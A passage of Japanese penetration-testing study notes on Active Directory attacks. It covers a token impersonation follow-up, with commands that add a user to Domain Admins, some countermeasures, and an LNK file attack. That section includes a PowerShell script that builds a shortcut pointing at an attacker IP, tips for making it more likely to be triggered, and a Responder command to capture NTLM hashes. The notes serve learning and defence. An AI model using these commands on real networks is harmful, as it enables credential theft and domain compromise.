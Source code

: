 高い権限でなりすましができた後に、その権限でユーザーを新しく作成する
そして、作成したアカウントで、もう一度`secretsdump.py`などでハッシュをダンプすると、全てのハッシュを取得できる
```windows shell
net user /add <ユーザーネーム> <パスワード> /domain
net group "Domain Admins" <ユーザーネーム> /ADD /DOMAIN
```

ちなみに、loadだけ入力することで、他のモジュールや拡張機能についてもみれる
その中の「kiwi」は、mimikatzの派生みたいな感じ

### 対策
- ユーザー／グループのトークン作成権限を制限する
- アカウント階層化（Account Tiering）を行う
	- ベストプラクティス
- ローカル管理者権限の制限


# LNK File Attack
- 水飲み場攻撃の一種
- 権限を昇格させたり、管理者のハッシュを取得したい場合など
	- 管理者など高権限ユーザーの NTLMハッシュを取得
	- SMBリレーやパスワードクラックなどに繋げる
- 特に共有フォルダ（社内ファイル共有）が攻撃経路になる

攻撃の流れ（3ステップ）

1. 悪意ある .lnk（ショートカット）ファイルを作る
	- .lnk ファイルは、アイコンやリンク先などに**リソース参照先、UNCパス**を指定できる
	- 例： `\\ATTACKER_IP\icon.ico`
	- Windowsはアイコン表示のためにこのリモートパスに勝手にアクセスする！

.Inkファイルの作成コマンド
- この時に、作成する.lnkファイル名の接頭辞に「@」か「~」をつける
	- こうすることで、エクスプローラーで表示した時に、上の方に出てきて、windowsに勝手に実行されやすくなる
```powershell
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("<ADの共有フォルダ>\@test.lnk")
$lnk.TargetPath = "\\<攻撃者のIP>\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

2. その .lnk ファイルを共有フォルダに置く
	- 社内共有フォルダやホームドライブなど、誰かが開く可能性のある場所に配置
	- 例えば：`\\fileserver\public\Project2025Shortcut.lnk`

3. KaliでResponderを立ち上げ、接続を待つ
```sh
sudo responder -I eth0 -dPv
```
